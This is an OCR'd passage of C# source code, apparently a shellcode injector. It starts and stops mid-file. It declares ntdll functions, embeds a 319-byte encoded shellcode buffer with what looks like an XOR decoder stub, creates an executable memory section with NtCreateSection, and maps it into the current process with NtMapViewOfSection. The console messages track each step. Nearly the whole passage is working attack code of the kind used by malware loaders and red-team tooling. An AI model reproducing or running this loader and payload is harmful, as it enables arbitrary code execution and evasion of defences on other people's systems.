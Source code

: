 ```C#
            IntPtr baseAddr);

        // NtClose
        [DllImport("ntdll.dll", ExactSpelling = true, SetLastError = false)]
        static extern int NtClose(IntPtr hObject);

        static int Main(string[] args)
        {
            byte[] buf = new byte[319] {
            0x48,0x31,0xc9,0x48,0x81,0xe9,0xdd,0xff,0xff,0xff,0x48,0x8d,0x05,0xef,0xff,
            0xff,0xff,0x48,0xbb,0xb6,0x91,0x18,0x2b,0x1c,0x05,0x92,0x1b,0x48,0x31,0x58,
            0x27,0x48,0x2d,0xf8,0xff,0xff,0xff,0xe2,0xf4,0x4a,0xd9,0x9b,0xcf,0xec,0xed,
            0x52,0x1b,0xb6,0x91,0x59,0x7a,0x5d,0x55,0xc0,0x4a,0xe0,0xd9,0x29,0xf9,0x79,
            0x4d,0x19,0x49,0xd6,0xd9,0x93,0x79,0x04,0x4d,0x19,0x49,0x96,0xd9,0x93,0x59,
            0x4c,0x4d,0x9d,0xac,0xfc,0xdb,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xad,0x79,
            0x57,0x1e,0x29,0xb2,0x5a,0x77,0x58,0x15,0x6a,0x1d,0xc4,0x70,0xf6,0xe4,0xd0,
            0x49,0x63,0x97,0x57,0xb2,0x90,0xf4,0xad,0x50,0x2a,0xcc,0x8e,0x12,0x93,0xb6,
            0x91,0x18,0x63,0x99,0xc5,0xe6,0x7c,0xfe,0x90,0xc8,0x7b,0x97,0x4d,0x8a,0x5f,
            0x3d,0xd1,0x38,0x62,0x1d,0xd5,0x71,0x4d,0xfe,0x6e,0xd1,0x6a,0x97,0x31,0x1a,
            0x53,0xb7,0x47,0x55,0x1a,0xd5,0x4d,0xa3,0xdb,0x1a,0xd0,0xd9,0xe2,0x11,0x44,
            0x93,0xda,0x8e,0x71,0x6d,0xda,0x50,0x06,0xde,0x3f,0xbe,0xd4,0x21,0xfa,0x69,
            0xdd,0xca,0x5f,0x3d,0xd1,0x3c,0x62,0x1d,0xd5,0xf4,0x5a,0x3d,0x9d,0x50,0x6f,
            0x97,0x45,0x8e,0x52,0xb7,0x41,0x59,0xa0,0x18,0x8d,0xda,0x1a,0x66,0xd0,0x40,
            0x6a,0x44,0x5b,0xcb,0x41,0xf7,0xc9,0x59,0x72,0x5d,0x5f,0xda,0x98,0x5a,0xb1,
            0x59,0x79,0xe3,0xe5,0xca,0x5a,0xef,0xcb,0x50,0xa0,0x0e,0xec,0xc5,0xe4,0x49,
            0x6e,0x45,0x63,0xa6,0x04,0x92,0x1b,0xb6,0x91,0x18,0x2b,0x1c,0x4d,0x1f,0x96,
            0xb7,0x90,0x18,0x2b,0x5d,0xbf,0xa3,0x90,0xd9,0x16,0xe7,0xfe,0xa7,0xf5,0x27,
            0xb9,0xe0,0xd0,0xa2,0x8d,0x89,0xb8,0x0f,0xe4,0x63,0xd9,0x9b,0xef,0x34,0x39,
            0x94,0x67,0xbc,0x11,0xe3,0xcb,0x69,0x00,0x29,0x5c,0xa5,0xe3,0x77,0x41,0x1c,
            0x5c,0xd3,0x92,0x6c,0x6e,0xcd,0x48,0x7d,0x69,0xf1,0x35,0xd3,0xe9,0x7d,0x2b,
            0x1c,0x05,0x92,0x1b };
            long buffer_size = buf.Length;

            // Create the section handle.
            IntPtr ptr_section_handle = IntPtr.Zero;
            // fNtCreateSection(&sectionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)&sectionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
            UInt32 create_section_status = NtCreateSection(ref ptr_section_handle, 0xe, IntPtr.Zero, ref buffer_size, 0x40, 0x08000000, IntPtr.Zero);
            if (create_section_status != 0 || ptr_section_handle == IntPtr.Zero)
            {
                Console.WriteLine("[-] An error occured while creating the section.");
                return -1;
            }
            Console.WriteLine("[+] The section has been created successfully.");
            Console.WriteLine("[*] ptr_section_handle: 0x" + String.Format("{0:X}", (ptr_section_handle).ToInt64()));

            // Map a view of a section into the virtual address space of the current process.
            long local_section_offset = 0;
            IntPtr ptr_local_section_addr = IntPtr.Zero;
            UInt32 local_map_view_status = NtMapViewOfSection(ptr_section_handle, GetCurrentProcess(), ref ptr_local_section_addr, IntPtr.Zero, IntPtr.Zero, ref local_section_offset, ref buffer_size, 0x2, 0, 0x04);

            if (local_map_view_status != 0 || ptr_local_section_addr == IntPtr.Zero)
            {
                Console.WriteLine("[-] An error occured while mapping the view within the local section.");
                return -1;
            }
            Console.WriteLine("[+] The local section view's been mapped successfully with PAGE_READWRITE access.");
```